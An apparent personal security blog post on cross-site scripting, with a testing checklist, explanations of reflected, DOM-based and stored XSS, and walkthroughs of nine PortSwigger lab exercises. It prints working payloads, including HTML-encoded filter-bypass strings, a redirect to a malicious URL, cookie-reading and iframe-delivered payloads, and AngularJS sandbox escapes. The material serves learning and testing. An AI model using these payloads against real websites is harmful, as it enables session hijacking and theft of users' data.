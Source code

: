 ```yaml
---
layout: post
title: XSS (Cross site scripting)
subtitle: Victim visit malicious URL/site to trigger the payload made of JavaScript. Causing their session to be controlled or data to be stolen
date: 2025-09-15 19:15
author: Ren Sie
comments: true
category: script-input
thumbnail-img: /assets/img/githubpost/xxs_thumb.png
---
```


Cross-site scripting (XSS) is a web security flaw where attackers inject malicious scripts into trusted websites, which then execute in the browsers of unsuspecting users. This exploitation allows attackers to steal sensitive data, hijack user sessions, or manipulate website content by taking advantage of web applications that do not properly validate or sanitize user input.



{: .box-note}
**Note:** 💡 During the testing, use `print()` `prompt("text")` instead of `alert()` since `alert()` is commonly detected and filtered. <br> When testing for XXS, test for html injection first because it’s more likely to work
E.g., \<h1\>test\</h1\>

### Checklist
<details markdown="1">
  <summary>Click me to expand checklist</summary>  

1. **Is input reflected in the response?**

2. **Can we inject HTML?**
   - E.g., `https[://]victim[.]com/search?user=<img src=x onerror=prompt("XSS")>`
    
3. **Any weaknesses in the Content Security Policy (CSP)?**
   - Use of unsafe directives which allow execution of inline scripts or eval() functions, bypassing CSP protections. <br> E.g.,`Content-Security-Policy: script-src 'self' 'unsafe-inline' 'unsafe-eval';`
   - Allowing broad sources or wildcards in directives (e.g., script-src), which permits potentially untrusted external scripts to run. <br> E.g., `Content-Security-Policy: script-src *;`
   - Inclusion of compromised or vulnerable third-party domains in trusted sources, such as JSONP endpoints that can be exploited to inject malicious scripts. <br> E.g., `https[://]third-party_domain[.]com/jsonp?callback=prompt("xss is available!")`
   - Omitting strict directives for resources like object-src or failing to restrict nonces and hashes properly which can allow script injection.
   - Weak or predictable nonces (e.g., 'nonce-12345') that attackers can guess or reproduce to bypass CSP restrictions.
 
4. **Can we use events (e.g. onload, onerror)?**
   - `<body onload="prompt('XSS via onload!')"> Welcome to the website! </body>`
   - `<a href="https[://]trusted[.]com/search?user=<img src=x onerror=prompt("XXS Available")>"> Click me! </a>`

5. **Are there any filtered or escaped characters?**
   - E.g., `<`, `>`, `"`, `'`, `javascript:`, `alert()`
   - Refer to [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html)

6. **Is input stored and then later rendered?**

7. **Can we inject into non-changing values (e.g. usernames, comments, etc.)?**
   - E.g., web application allows user input and stores them without proper sanitization.

8. **Any input collected from a third party (e.g. account information)?**
   - Third-party inputs refer to any data or content that comes from an external source (via third-party api) or from other users.

9. Is the version of the framework or dependency vulnerable?
   - [OWASP Dependency-Check](https://github.com/dependency-check/DependencyCheck)
   - [OWASP Dependency-Check Installation and Scanning First project](https://www.youtube.com/watch?v=hWiI700y3J0)

</details>

### Reflected XXS
Inject payload into the HTTP request. And once the web server receive the request, it will response with the payload to sender’s browser. It relies on URL to make user fall for the attack.

### Dom-Based XXS
Client-side has vulnerable JavaScript. It doesn’t involve with the server-side, completely rely on client’s browser to execute the payload.
One quick check is turn on the developer tool, input and execute a simple prompt or alert script, see if there’s any network interaction with the server.

{: .box-note}
**Note:** 🚨 Inspecting Network page in the developer tab while sending input. If there’s no external communication happens, it indicates it is Dom-Based XXS.

#### Page Redirect
User could inject the following code into a vulnerable website, causing an automatic redirect to a malicious site. When a victim loads the page with this injected script, they will be automatically redirected to <$url>.
~~~
src=x onerror="window.location.href='<$url>'"
~~~

#### HTML Events
<details markdown="1">
<summary>Click me to reveal the chart of HTML events</summary>

| Event | Trigger Condition | Elements | Notes |
| :------ | :------ | :------ | :------ |
| onmouseover | When mouse pointer moves over an element | Most HTML elements including input | Used for hover interaction |
| onmouseout | When mouse pointer leaves an element | Most HTML elements including input | |
| onmousedown | When mouse button pressed over an element | Most elements | |
| onmouseup | When mouse button released over an element | Most elements | |
| onclick | When user clicks on an element | Most elements | Commonly used event |
| onfocus | When element receives focus (tab, click, or programmatic) | Input, textarea, select | Particularly useful for inputs |
| onblur | When element loses focus | Input, textarea, select | |
| onchange | When element's value is changed and the control loses focus | Input, select, textarea | Fires after commit of the change |
| oninput | When the user modifies the value | Input, textarea | Fires immediately as value changes |
| onerror | When loading of resource fails | img, script, iframe, media tags | Does not fire on input elements |
| onload | When resource loads successfully | body, img, iframe, script, media | Does not fire on input elements |
| onsubmit | When form is submitted | form element | |
| onkeydown | When a key is pressed | Most elements | |
| onkeyup | When a key is released | Most elements | |
  
</details>


### Store
Payload is stored in the database, and victim’s browser will retrieve it once it visit the page. For instance:  
1. In the attacker’s browser leave html injection comment: \<h1\>test\</h1\>.
2. Visit the same page from victim’s browser

![store_xxs.png](/assets/img/githubpost/xxs_1.png)

### Labs
Just for demostration, I completed a few labs on [PortSwigger Academy](https://portswigger.net/web-security/all-labs#cross-site-scripting) to show how this vulnerability can lead to:

#### 1. DOM-based XSS in document.write sink using source location.search
The target application use `document.write()` function to display content from `location.search`, which comes from the URL query string. Allows users to modify the URL, and to inject and execute arbitrary scripts in the page.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=123456">
  ~~~
  
4. After knowing the syntax. We can add a closing angle bracket to close up the img tag, and add a new tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: "><script src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041"></script>
  Result: <img src="/resources/images/tracker[.]gif?searchTerms=">
          <script src="x" onerror="javascript:alert('XSS')"></script>
  ~~~
</details>
-

#### 2. DOM XSS in innerHTML sink using source location.search
The application It assigns data from `location.search` to `innerHTML`, which updates the contents of a `<div>`. Since the URL can be controlled by the user, they can inject malicious HTML or scripts.
<details markdown="1">
  <summary>Click me to expand the process</summary>  
  
1. Enter random input (e.g., 123456) in the user input (URL query)
  ~~~
  https[://]web-security-academy.net/?search=123456
  ~~~
  
2. Right-click on the webpage and open the inspection tab
  
3. Press `Crtl+F` to open search function in inspection tab, and search for input (e.g., 123456)
  ~~~
  Result: <span id="searchMessage">123456</span>
  ~~~
  
4. After knowing the syntax. I can add a closing tag to close up `<span>`, and add a new `<img>` tag with the payload. I use HTML encoding to bypass the filter.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=</span><img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
  Result: <span id="searchMessage"><img src="x" onerror="javascript:alert('XSS')"></span> <span>'</span> == $0
  ~~~
  
</details>
-
  
#### 3. DOM XSS in jQuery anchor href attribute sink using location.search source
In this instance, jQuery’s `$` selector is used to find a link and set its `href` using data from `location.search`, which comes from the URL query string.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Right-click on the webpage and open the inspection tab. I search for `location.search`, which led me to this script:
  ```javascript
  $(function() {  
    $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));  
    });
  ```
  
2. I also notice that the URL contains the `returnPath` query parameter, which aligns with the script. Which uses this query parameter to set the href attribute of the backlink.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=/
  ~~~
  
3. Insert the payload into the `returnPath` query parameter.
  ~~~
  URL: https[://]web-security-academy[.]net/feedback?returnPath=javascript:prompt(document.cookie)
  Result: <a id="backLink" href="javascript:prompt(document.cookie)">Back</a>
  ~~~
  
</details>
-

#### 4. Stored XSS into anchor href attribute with double quotes HTML-encoded
This instance contains a stored XSS vulnerability in the comment section. I submit a comment that triggers an alert when the author’s name is clicked.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. In the comment section, there are four fields (Comment, Name, Email, Website). After filling out all the fields and submitting my comment, I notice that the Name section contains an external link, which is the website I enter while filling out the form.

2. I use the search function in the inspection tab to look for the website I enter. And I find:
~~~
Result: <a id="author" href="Website.com">Name</a>
~~~

3. Now, I determine that the href attribute accepts user input, so I enter a simple payload into the Website field. It is confirmed that the alert will be triggered when I click on the Name.
~~~
Website: javascript:alert('Zebra!')
Result: <a id="author" href="javascript:alert('Zebra!')">World Smartest Zebra</a>
~~~
</details>
-

#### 5. Reflected XSS into attribute with angle brackets HTML-encoded
The application contains a reflected XSS vulnerability in the search blog feature, where angle brackets are HTML-encoded. I inject an attribute via XSS that triggers an alert function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Enter random input (e.g., test123) in the user input (URL query)
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123
  ~~~
  
2. Utilize search function in inspection tab, and search for input (e.g., test123)
  ~~~
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123">
  ~~~
  
3. After learning that our input is within a double-quoted attribute, we can try to bypass the double-quoted attributes by breaking out of the attribute value with the injection of double quotes or equivalent encodings, and then adding the HTML events that triggers the payload.
  ~~~
  URL: https[://]web-security-academy[.]net/?search=test123" onmouseover="alert(test)
  Result: <input type="text" placeholder="Search the blog..." name="search" value="test123" onmouseover="alert(test)">
  ~~~

  {: .box-note}
  **Note:** The `value` attribute is closed early by the injected quote, and `onmouseover="alert(1)` is interpreted as a new `onmouseover` attribute on the \<input\> tag.

4. Once I hover the cursor over the search bar, it triggers the alert. I identify the XSS vulnerability.
</details>
-

#### 6. DOM XSS in jQuery selector sink using a hashchange event
There is a DOM-based XSS vulnerability on the home page, where jQuery’s `$()` selector is used to auto-scroll to a post, with the title passed through `location.hash`.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I search for `$()` in the inspection tab, and I find the syntax for this function. Which listens for hash changes in the URL (`/#`) and scrolls the corresponding blog post into view based on the hash value.
  ```javascript
  $(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
    });
  ```
  
2. I append a simple XSS test payload with a hashtag to the URL, and the print function is triggered. The XSS vulnerability in this application is confirmed.
  ~~~
  URL: https[://]web-security-academy[.]net/#<img src=x onerror=print()>
  ~~~

3. In the case that I want to deliver this payload to others, I utilize `iframe`, `onload`, `img src`, and `onerror` to trigger the payload once they open the page.
  ~~~
  URL: <iframe src="https[://]web-security-academy[.]net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
  ~~~

  {: .box-note}
  **Note:** The `onload` attribute of the `iframe` runs JavaScript to append the print payload directly into the URL fragment after the page loads. The vulnerable page inside the iframe then reads this fragment (<img src=x onerror=print()>) and executes the injected payload.
  
</details>
-

#### 7. Reflected XSS into a JavaScript string with angle brackets HTML encoded
In this instance, the application is vulnerable to reflected XSS in the search query tracking functionality, where angle brackets are encoded. The reflection occurs inside a JavaScript string. I break out of the string and triggers the `prompt()` function, to demonstrate the vulnerability.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. I enter random input (e.g., test) in the user input (search bar)
  
2. Utilize search function in inspection tab, and search for input (e.g., test). I find that the input is directly past into the function.
  ```javascript
    var searchTerms = 'test';
      document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
3. Now I learn that my input is inside the single quote, I try breaking out the single quote with:
  ~~~
  Input: '-prompt("TestXSS")-' # breaks the single quote
         or \\'-prompt("TestXSS")// # If single quotes are escaped
  ~~~
  
4. The message pops up after I send the query, which confirms that this instance is vulnerable to XSS. <br> Just to double-check, I pull out the script from the inspection tab.
  ```javascript
  var searchTerms = ''-prompt("TestXSS")-'';
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
  ```
  
</details>
-

#### 8. DOM XSS in document.write sink using source location.search inside a select element
This instance contains a DOM-based XSS vulnerability in the stock checker functionality. It leverages the `document.write` function to output data to the page, using data from `location.search` that user can control through the website URL. The input data is between the `<option>` tag, I break out of it and calls the `prompt` function.
<details markdown="1">
  <summary>Click me to expand the process</summary>
  
1. Firstly, I discover the function in the inspection tab (`right-click on the webpage > inspect`). <br>And I learn that the script builds a `<select name="storeId">` dropdown by reading a `storeId` query parameter from the URL and, if present, adding it as the selected `<option>` before adding the three hard-coded stores (skipping any duplicate). <br>It uses `document.write` with the raw URL value, so unescaped input could be reflected into the page; creating elements and setting textContent/value.
```javascript
  var stores = ["London", "Paris", "Milan"];
  var store = (new URLSearchParams(window.location.search)).get('storeId');
  document.write('<select name="storeId">');
  if(store) {
      document.write('<option selected>' + store + '</option>');
  }
  
  for(var i = 0; i < stores.length; i++) {
      if(stores[i] === store) {
          continue;
      }
      document.write('<option>' + stores[i] + '</option>');
  }
  
  document.write('</select>');
```
  
2. After discovering that the function takes user input in the `storeId` parameter, I add the `storeId` parameter after the original `productId` parameter with a `&`. I then send a test input (test) to see the application's response. As expected, I am able to add a new selected `<option>`.
~~~
URL: https[://]web-security-academy[.]net/product?productId=2&storeId=test
Result:
<select name="storeId">
  <option selected>test</option> # I create this option by inserting the parameter and value in the URL.
  <option>London</option>
  <option>Paris</option>
  <option>Milan</option>
~~~
  
3. Remember this syntax `document.write('<option>' + stores[i] + '</option>');` from the function. What I can do is close the first `<option>` tag, inject new HTML tags or event attributes, and then open another `<option>` tag. I try injecting a couple of new HTML tags, and both work. <br>Now, I can confirm that the stock search query function on this web application is vulnerable to XSS.
~~~
Payload-1: storeId=test</option><iframe src="javascript:prompt('work?');"></iframe><option>
Payload-2: storeId=test</option><script>prompt('work?')</script><option>
~~~

</details>
-

#### 9. DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
This instance contains a DOM-based XSS vulnerability in an `AngularJS` expression within the search functionality. I inject a method (e.g. `$on`/`$eval`) that is available in the current scope to bypass AngularJS's security filter, append the `.constructor` property to create a `Function` object (`function(user_input)`), and then call it with `()` to execute the created function.

{: .box-note}
**Note:** Refer to [AngularJS DOM XSS Attack](https://www.youtube.com/watch?v=QpQp2JLn6JA) for more details walkthrough

<details markdown="1">
  <summary>Click me to expand the process</summary>

1. After did some researches ([AngularJS - Escaping the Expression Sandbox](https://spring.io/blog/2016/01/28/angularjs-escaping-the-expression-sandbox-for-xss), [Function() constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Function/Function), [Object.prototype.constructor](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/constructor), ) I come up with a couple of different payloads to pybass the security filter.
  ~~~
  Payload-1: \{\{$eval.constructor(prompt('AngularJS_xss'))()\}\}
  Payload-2: \{\{$on.constructor('prompt("AngularJS_xss")')()\}\}
  ~~~
  
</details>
-
